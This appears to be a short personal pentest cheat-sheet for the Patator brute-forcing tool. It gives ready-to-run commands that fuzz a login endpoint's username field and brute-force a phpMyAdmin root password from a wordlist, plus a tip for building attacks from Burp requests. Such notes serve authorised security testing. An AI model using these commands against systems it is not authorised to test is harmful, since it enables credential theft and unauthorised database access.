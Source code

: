 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
git clone https://github.com/lanjelot/patator && cd patator
```

#### Blind SQL injection
[[1.7_Blind SQLi]]

#### Fuzz Get Request
```bash - kali
python3 patator.py http_fuzz method=GET url="http://$TARGET/ajax.php?fun=login&username=FILE0&password=test" 0=users.txt -x ignore:fgrep='invalid user'
```

#### Fuzz Post Request
```bash - kali
python3 patator.py http_fuzz url=http://$TARGET/phpmyadmin/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&lang=en' 0=passwords.txt follow=1 accept_cookie=1 -x ignore:fgrep='Cannot log in to the MySQL server'
```

#### Attack from Burp request
Place in your FILE placeholders where necessary.  Below, we see in the password field.

![[Pasted image 20220318104320.png]]

Right click > copy to file > "copy to file" as text file.




